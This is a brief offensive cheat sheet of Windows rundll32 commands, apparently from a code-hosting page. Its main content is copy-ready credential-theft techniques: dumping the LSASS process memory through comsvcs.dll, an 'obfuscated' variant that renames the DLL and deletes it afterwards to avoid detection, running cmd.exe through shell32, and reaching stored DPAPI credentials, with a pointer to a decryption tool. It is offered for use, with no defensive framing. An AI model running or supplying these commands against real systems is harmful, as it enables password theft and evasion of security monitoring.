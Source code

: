 ### Dump lsass process
```
rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id <fullPath>\lsassdump.dmp full
```

### Dump lsass process obfuscated
```
$id = Get-Process lsass; cd c:\tmp; copy C:\Windows\System32\comsvcs.dll <newName>.dll; rundll32.exe <newName>.dll, MiniDump $id.Id c:\tmp\<file>.dmp full; Wait-Process -Id (Get-Process rundll32).id; del <newName>.dll;
```

### Run cmd.exe
```
rundll32.exe SHELL32.DLL,ShellExec_RunDLL "cmd.exe" "/c <command>
```

### Dump passwords of DPAPI to file
```
rundll32.exe keymgr.dll, KRShowKeyMgr
```

### Decrypt using
https://www.nirsoft.net/utils/credentials_file_view.html

